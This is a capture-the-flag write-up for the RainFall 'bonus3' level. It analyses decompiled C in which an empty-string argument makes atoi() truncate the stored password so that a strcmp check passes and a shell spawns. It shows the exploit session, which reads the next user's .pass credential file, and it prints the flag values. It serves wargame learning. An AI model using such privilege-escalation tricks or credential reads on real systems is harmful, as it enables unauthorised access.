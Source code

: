 ## **Analysis**

**In `main()` :**

```c
...

file = fopen("/home/user/end/.pass", "r");  // Open the '.pass' file

if (!file || ac != 2)                       // One argument needed
	return (-1);

fread(str1, 1, 0x42, file); // 66           // Read the first 66 characters of '.pass' and put it in 'str1'
str1[atoi(av[1])] = '\0';                   // Atoi() on the argument and put '\0' in this index in str1

...

if (strcmp(av[1], str1) == 0)               // If str1 is equal to the argument
    execl("/bin/sh", "sh", 0);              // open shell

...
```

If `atoi()` of the argument equal `0` -> `str1` will equal `""`

___

## **Exploit**

**With arg `""`:**
 * atoi(arg) == 0
 * arg equal str1

```bash
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

___

*Password: 71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587*